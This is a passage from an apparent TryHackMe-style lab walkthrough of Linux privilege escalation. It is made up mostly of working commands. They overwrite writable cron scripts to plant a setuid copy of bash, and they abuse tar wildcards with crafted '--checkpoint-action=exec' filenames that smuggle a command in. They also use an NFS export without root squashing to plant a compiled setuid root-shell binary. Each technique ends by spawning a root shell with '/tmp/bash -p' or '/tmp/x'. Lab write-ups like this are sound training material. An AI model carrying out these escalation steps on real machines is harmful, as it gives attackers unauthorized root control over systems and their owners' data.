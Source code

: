 ```bash
$echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
$chmod +x /home/user/overwrite.sh
```

Wait 1 min for the bash script to execute then type ```/tmp/bash -p``` and you can get the root shell.

## Privilege Escalation - (Wildcards)

We have seen there is another script file let's see the code of that script ```cat /usr/local/bin/compress.sh```. We can see that wildcard (*) is used by tar. 

Exploitation Method

```bash
$echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
$touch /home/user/--checkpoint=1
$touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

Wait 1 min for this script to run then type ```/tmp/bash -p```.

## Privilege Escalation - Cron  (File Overwrite)

We have seen that there is a script file called overwrite.sh let's try to find it's location with ```find / -name overwrite.sh 2>/dev/null```. The location is /usr/local/bin/overwrite.sh now let's see if we have permission to write to that file with ```ls -la /usr/local/bin```. We can see that we have permission to write to that file. So, let's overwrite it by using ```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh``` Now wait for 1 min for the script to run then type ```/tmp/bash -p```

## Privilege Escalation - NFS root Squashing

Find the NFS permission by using ```cat /etc/exports```, now find the exports by using ```showmount -e ip```. Now in attacker machine type 

```bash
$mkdir /tmp/1
\#mount -o rw,vers=2 ip:/tmp /tmp/1
\#echo 'int main() {setuid(0); setgid(0); system("/bin/bash");}' > /tmp/1/x.c
\#gcc /tmp/1/x.c -o /tmp/1/x
\#chmod +s /tmp/1/x
```

In target machine run ```/tmp/x```

## Resources
[TryHackMe](https://tryhackme.com)
[LegalHackers](https://legalhackers.com/)
[GTFobins](https://gtfobins.github.io/)
